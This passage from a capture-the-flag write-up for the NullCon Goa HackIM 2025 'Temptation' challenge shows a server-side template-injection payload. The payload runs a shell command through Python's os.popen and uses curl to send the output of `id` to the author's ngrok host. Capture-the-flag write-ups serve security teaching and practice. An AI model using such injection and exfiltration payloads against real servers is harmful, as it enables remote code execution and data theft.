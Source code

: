 > ![Curl 5](/images/NullCon-Goa-HackIM-CTF-2025/Temptation/curl5.png "Curl 5")
> 
> As we can see, it works, and `curl` is correctly installed on the web server. This allows us to redirect the request to our server. After a few tests locally, I was able to get the response of the `id` command execution from the remote challenge web server to my web server created with ngrok.
> 
> ```bash
> curl -X POST "http://52.59.124.14:5011/" --data-urlencode "temptation=\${__import__('os').popen('curl https://c590-2-37-206-147.ngrok-free.app?content=\$(id)').read()}"
> ``` 
> 
> Using `$(command)` in bash allows executing commands and printing the output inside strings. This is the result:
> 
> ![Curl 6](/images/NullCon-Goa-HackIM-CTF-2025/Temptation/curl6.png "Curl 6") 
> 
> As we can see, I obtain the response on my web server, but let's check if the output of the `id` command executed on the web server is in the `content` request parameter. This can be done through the ngrok web interface at [http://127.0.0.1:4040](http://127.0.0.1:4040).
> 
